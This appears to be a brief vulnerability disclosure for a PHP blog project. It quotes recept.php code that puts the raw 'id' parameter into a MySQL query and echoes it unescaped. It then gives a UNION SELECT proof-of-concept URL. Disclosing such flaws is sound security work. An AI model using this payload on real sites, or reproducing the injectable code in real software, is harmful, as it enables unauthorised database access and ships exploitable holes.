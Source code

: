 #powered by sebao from 404team#


##Vulnerability link##
https://github.com/zorovavi/blog

##Vulnerability details##
in recept.php line 41 allows SQL Injection via the id parameter

	<?php 
		$id=$_GET["id"];
		require_once("db.php"); 
		$query=mysql_query("SELECT recept FROM recept WHERE id_z=$id", $link) or die(mysql_error());
		$zag1=mysql_fetch_row($query);
		$zag=$zag1[0];
	?>
	<p><img src="images/<?php echo "$id" ?>.jpg" alt = "рецепт"><?php echo "$zag"?></p>
  
##POC:##

http://target/recept.php?id=-1 union select user()
